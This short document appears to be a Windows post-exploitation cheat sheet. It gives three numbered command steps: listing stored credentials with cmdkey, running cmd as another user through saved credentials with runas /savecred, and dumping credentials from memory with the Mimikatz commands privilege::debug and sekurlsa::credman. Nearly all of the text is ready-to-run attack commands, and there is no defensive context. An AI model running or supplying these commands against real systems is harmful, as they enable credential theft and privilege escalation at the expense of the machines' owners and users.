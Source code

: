1) Enumerating credentials with cmdkey
```shell
cmdkey /list
```

2) Runas tool
```shell
runas /savecred /user:SRV01\mcharles cmd
```

2) Extracting credentials with Mimikatz
```shell
privilege::debug
sekurlsa::credman
```
